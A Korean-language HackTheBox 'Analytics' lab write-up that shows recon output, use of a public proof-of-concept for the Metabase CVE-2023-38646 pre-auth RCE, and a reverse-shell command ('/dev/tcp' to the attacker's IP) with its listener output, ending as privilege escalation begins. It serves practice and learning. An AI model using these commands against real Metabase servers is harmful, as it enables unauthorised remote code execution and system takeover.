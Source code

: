 ```yaml
---
title: HTB Analytics Write-up
categories: [HackTheBox, Machines]
tags: [HackTheBox]
image:
    path: /assets/image_post/20240329134348.png
---
```


> write-up 컨텐츠의 경우 제가 풀었던 의식의 흐름을 기억해놓고자 작성합니다. 두서 없이 정리된 만큼, 문제 풀이는 다른 분꺼 참고를 추천합니다.
{: .prompt-tip }

## [0x00] recon
---
20, 80 port 활성화가 확인 되며, `http://analytical.htb/`로 redirect 된다. /etc/hosts 파일에 해당 경로를 추가해주자.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sCV 10.10.11.233
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌──(root㉿kali)-[/home/user]
└─# curlcurl -i 10.10.11.233

HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 29 Mar 2024 04:49:11 GMT
Content-Type: text/html
Content-Length: 154
Connection: keep-alive
Location: http://analytical.htb/

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

gobuster로 수집한 결과는 아래와 같이 몇 없다. 직접 접속해서 기능을 봐야할 듯 하다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dir -u http://analytical.htb/ -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://analytical.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://analytical.htb/images/]
/js                   (Status: 301) [Size: 178] [--> http://analytical.htb/js/]
/css                  (Status: 301) [Size: 178] [--> http://analytical.htb/css/]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

접속 시 아래와 같은 형태의 사이트가 나오며, 기능 중 login 페이지 접속 시 data.analytical.htb로 이동하게 된다. 마찬가지로 /etc/hosts 파일에 추가가 필요하다.
![](../assets/image_post/20240329135622.png)

로그인 페이지로 접근 시 아래와 같이 나온다. 자...이제 어떻게 해야할지 고민해보자
![](../assets/image_post/20240329140253.png)

로그인 페이지의 이것저것을 보던 중 webpack 관련 내용이 보이는 것을 확인하였다. 찾은 경로 중 /api가 있어 접근해보니, api를 테스트해볼 수 있는 페이지 같은 모습이 나온다.
![](../assets/image_post/20240329141234.png)
![](../assets/image_post/20240329142843.png)

이것 저것 다양한 시도를 해보았으나, 결국 Guide Mode를 통해 진행하게 되었다. 그런데...세상에..
> What is the 2023 CVE ID assigned to the pre-authentication, remote code execution vulnerability in this version of Metabase?
이 문제도 cve를 찾아서 풀어야 하는 문제였네...? metabase 란 서비스가 문제용으로만 있는줄 알았는데 그게 아니였나보다...🤢

## [0x01] gainning access
---
관련된 cve를 검색해보니 cve-2023-38646 Pre-Auth RCE 취약점이 나온다. [PoC Code](https://github.com/m3m0o/metabase-pre-auth-rce-poc)를 다운로드하여 한번 실행해보자. 사용 방법은 `python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"`와 같은 령태이다. 

``` bash
┌──(root㉿kali)-[/home/user/htb/metabase-pre-auth-rce-poc]
└─# python main.py -u 'http://data.analytical.htb' -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "whoami"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```

처음 whoami를 입력해보니 단순히 전송하기만 하는 것으로 보인다. 즉, 반응이 되돌아오지는 않는 것이다. 그렇다면 바로 shell 연결을 시도해보자. 성공적으로 metabase 계정으로 연결되었다.
``` bash
# terminal 1
┌──(root㉿kali)-[/home/user/htb/metabase-pre-auth-rce-poc]
└─# python main.py -u 'http://data.analytical.htb' -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "sh -i >& /dev/tcp/10.10.14.36/443 0>&1;"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent

# terminal 2
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.36] from analytical.htb [10.10.11.233] 40848
sh: can't access tty; job control turned off
/ $ whoami
metabase
```

## [0x02] privilege escalation
---
우선 process 목록을 보니 컨테이너로 되어 있는 것 같다. 
```
/ $ ps -ef
PID   USER     TIME  COMMAND
    1 metabase  2:13 java -XX:+IgnoreUnrecognizedVMOptions -Dfile.encoding=UTF-8 -Dlogfile.path=target/log -XX:+CrashOnOutOfMemoryError -server -jar /app/metabase.jar
  114 metabase  0:00 bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzYvNDQzIDA+JjE7}|{base64,-d}|{bash,-i}
  118 metabase  0:00 bash -i
  119 metabase  0:00 sh -i
  128 metabase  0:00 ps -ef
```
